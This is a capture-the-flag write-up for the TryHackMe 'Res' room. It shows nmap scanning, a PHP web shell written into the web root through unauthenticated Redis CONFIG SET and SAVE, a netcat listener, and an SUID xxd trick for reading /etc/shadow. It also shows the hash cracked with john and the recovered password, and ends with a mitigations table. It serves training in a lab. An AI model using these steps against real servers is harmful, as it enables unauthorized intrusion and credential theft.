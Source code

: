 [Res](https://tryhackme.com/room/res)


**Date:** [21/05/2025]  

**Difficulty:** [Easy]  

**Objective:** Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.171.200]  
**Service/Ports:** [e.g., 6379/tcp, 80/HTTP]  
**Entry Point:** [redis service]  
**Privilege Escalation:** [SUID binary (xxd)]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive
- Subdomain enumeration
- WHOIS
- Google dorking

## Active

nmap -sS -sV -p- 10.10.171.200       
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```


----

## 5. Exploitation

 Redis Access:

    Include commands/tools used:
```
    redis-cli -h 10.10.171.200 -p 6379

    10.10.171.200:6379> help
    redis-cli 7.0.15
```  
To get help about Redis commands type:
     "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit

To set redis-cli preferences:
      ":set hints" enable online hints
      ":set nohints" disable online hints
Set your preferences in ~/.redisclirc`
´´´

Checked if Writing Files allowed and created a shell payload:

```
10.10.171.200:6379> config set dir /var/www/html
OK
10.10.171.200:6379> config set dbfilename shell.php
OK
10.10.171.200:6379> set payload "<?php system($_GET['cmd']); ?>"
OK
10.10.171.200:6379> save
OK
```

Created a listener:
```
nc -lvnp 4444
```

Gained Access As: www-data


----

## 6. Privilege Escalation

    Method: SUID

    Tool Used: xxd, GTFOBins

    Commands:
    
```
whoami
sudo -l
ls -la
ls /home/vianka
env
cat /etc/crontab
find / -perm -4000 -type f 2>/dev/null
```

Findings:

```
First flag in: /home/vianka/user.txr
```

```
/usr/bin/xxd

GTOFBins:
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
Now, able to read the /etc/shadow file:
```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

To crack the password:
```
echo '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > shadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
sing default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (?)     
1g 0:00:00:00 DONE (2025-05-21 10:22) 1.886g/s 2415p/s 2415c/s 2415C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
```
su vianka
```

Escalated To: vianka

----

## 7. Post Exploitation

    Passwords: beautiful1 

    Hashes: $6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0

    Escalated To: vianka for last flag inside /root/root.txt

----

## 8. Flags / Proof

    User Flag: thm{red1s_rce_w1t***********}

    Root Flag: thm{xxd_pr**********}

    Other Credentials / Loot:

        
----

## 9. Mitigations

| Vulnerability              | Risk   | Suggested Mitigation                                                                                                                                  |
|----------------------------|--------|-------------------------------------------------------------------------------------------------------------------------------------------------------|
| Redis Server Exposure      | High   | Add requirepass StrongPassword in redis.conf to force login;  Block port 6379 externally. Allow only trusted IPs via iptables, ufw, or cloud firewall.|     
| SUID on xxd                | High   | Remove SUID Bit from Unnecessary Binaries                                                                                                             |
| Weak Password              |High    | Enforce long, complex passwords with expiration policies.                                                                                             |

----

## 10. Notes

    Time spent: [e.g., 1 hour]

    Tools used: nmap, redis-cli, xxd

    Lessons learned: [Used Redis to drop a PHP reverse shell in the web root by abusing CONFIG and SAVE; 
    xxd was incorrectly SUID — uncommon and dangerous. 
    Misconfigurations are low-hanging fruit — but they’re often all it takes.]
   
